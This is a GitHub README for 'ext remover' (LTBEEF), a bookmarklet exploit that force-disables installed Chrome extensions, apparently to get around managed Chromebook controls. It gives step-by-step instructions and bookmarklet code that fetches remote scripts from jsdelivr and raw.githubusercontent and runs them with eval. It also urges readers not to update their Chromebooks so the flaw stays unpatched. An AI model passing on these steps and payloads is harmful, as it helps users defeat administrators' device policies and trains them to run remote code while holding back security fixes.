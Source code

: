 # ext remover

![image](https://user-images.githubusercontent.com/58097612/191354621-bf7ff072-b9d7-46b5-994a-4d2adbf0e4f3.png)

Bookmarklet exploit that can force-disable any extension installed on Google Chrome. Also known as LTBEEF.

**DO NOT UPDATE YOUR CHROMEBOOK! This exploit might have been patched, so do not update!**

If you need any help, please go here: https://github.com/3kh0/ext-remover/discussions

## Instructions

Here are the instructions to using this exploit! There are two ways, using the GUI and using the ids, the GUI method is better

### Ingot (GUI)

Credit to Nebelung for this, [link to the github](https://github.com/FogNetwork/Ingot)

For easy setup go the the website at https://fognetwork.github.io/Ingot

1. Show your bookmarks bar with `ctrl + shift + b`
2. Right click on the bar and choose `Add Page`
3. Set the name to `Ingot` and the URL to the code below or [here](https://github.com/FogNetwork/Ingot/blob/main/bookmarklet.js)

```js
javascript:(function () {var a = document.createElement('script');a.src = 'https://cdn.jsdelivr.net/gh/FogNetwork/Ingot/ingot.min.js';document.body.appendChild(a);}())
```
**If this helped please give me a star!**

![image](https://user-images.githubusercontent.com/58097612/193318485-5267cd59-fb65-45a5-ad28-7f068bbce974.png)

### Using the GUI

Credit to CompactCow#4717 for the amazing UI!

1. Right click on the bar and choose `Add Page`
1. Set the name to `GUI` and the URL to the code below or [here](https://github.com/3kh0/ext-remover/blob/main/gui.js)
```js
javascript:fetch(`https://raw.githubusercontent.com/3kh0/ext-remover/main/exploit.js`).then(data=>{data.text().then(text=>{eval(text)})});
```
3. Visit https://chrome.google.com/webstorex. (This is a 404 page, and that is ok.)
4. Click the bookmark (Make sure you are on the page above!)
5. Use the menu to toggle your extensions!

**If this helped please give me a star!**

![image](https://user-images.githubusercontent.com/58097612/190276894-fc492c5c-b0ce-4943-ae56-603f75634618.png)

### Using IDs

#### Disabling 

1. Visit chrome://extensions and on the extension you want to disable click on Details
2. Copy the text in the URL after the `?id=`
> For example if you have this URL: `chrome://extensions/?id=echoontop` you would only copy `echoontop`
3.  Go to the file [`bookmark.js`](https://github.com/3kh0/ext-remover/blob/main/bookmark.js) and copy everything and create a new bookmark and use the code you copied as the Page URL
4. Visit https://chrome.google.com/webstorex. (This is a 404 page, and that is ok.)
5. Click the bookmark (Make sure you are on the page above!)
6.  Put the ID you copied into the text box.

You're done! The extension should now be disabled.

**If this helped please give me a star!**

#### Enabling

1. Visit chrome://extensions and on the extension you want to enable click on Details
2. Click View in Chrome Web Store
3. You will see a banner at the top of the page that says This item has been disabled in Chrome. Enable this item
4. Click on Enable this item

You're done! The extension should now be enabled.

**If this helped please give me a star!**

Credit bypassi for finding and making this exploit!
